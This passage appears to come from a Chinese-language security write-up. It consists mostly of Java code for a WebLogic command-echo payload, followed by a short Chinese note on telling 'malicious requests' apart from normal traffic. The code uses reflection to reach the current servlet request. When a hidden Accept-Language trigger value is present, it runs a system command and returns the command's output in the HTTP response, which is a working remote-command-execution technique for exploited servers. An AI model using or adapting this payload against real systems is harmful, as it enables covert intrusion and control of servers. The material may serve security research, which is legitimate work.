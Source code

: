 ```java
    private static Object getFV(Object var0, String var1) throws Exception {
        Field var2 = null;
        Class var3 = var0.getClass();

        while(var3 != Object.class) {
            try {
                var2 = var3.getDeclaredField(var1);
                break;
            } catch (NoSuchFieldException var5) {
                var3 = var3.getSuperclass();
            }
        }

        if (var2 == null) {
            throw new NoSuchFieldException(var1);
        } else {
            var2.setAccessible(true);
            return var2.get(var0);
        }
    }

    public static void WeblogicEchoTemplate(){
        try{
            Object adapter = Class.forName("weblogic.work.ExecuteThread").getDeclaredMethod("getCurrentWork").invoke(Thread.currentThread());
            Object res;
            if(!adapter.getClass().getName().endsWith("ServletRequestImpl")){
                Field field = adapter.getClass().getDeclaredField("connectionHandler");
                field.setAccessible(true);
                Object obj = field.get(adapter);
                adapter = obj.getClass().getMethod("getServletRequest").invoke(obj);
            }
            String var15 = (String) adapter.getClass().getMethod("getHeader", String.class).invoke(adapter, "Accept-Language");
            if (var15 != null && var15.equals("zh-CN,zh;q=1.9")) {
                String result = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
                res = adapter.getClass().getMethod("getResponse").invoke(adapter);
                Object sin = Class.forName("weblogic.xml.util.StringInputStream").getConstructor(String.class).newInstance(result);
                Object out = res.getClass().getDeclaredMethod("getServletOutputStream").invoke(res);
                out.getClass().getDeclaredMethod("writeStream",Class.forName("java.io.InputStream")).invoke(out,sin);
                out.getClass().getDeclaredMethod("flush").invoke(out);
                Object w = res.getClass().getDeclaredMethod("getWriter").invoke(res);
                w.getClass().getDeclaredMethod("write",String.class).invoke(w,"");
            }
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
### 区分命令请求和正常业务请求
因为当前代码执行的方式是通过类的静态代码块，不能直接拿到当前的Request，所以只能通过上下文，获取所有web请求，遍历，筛选出“恶意请求”
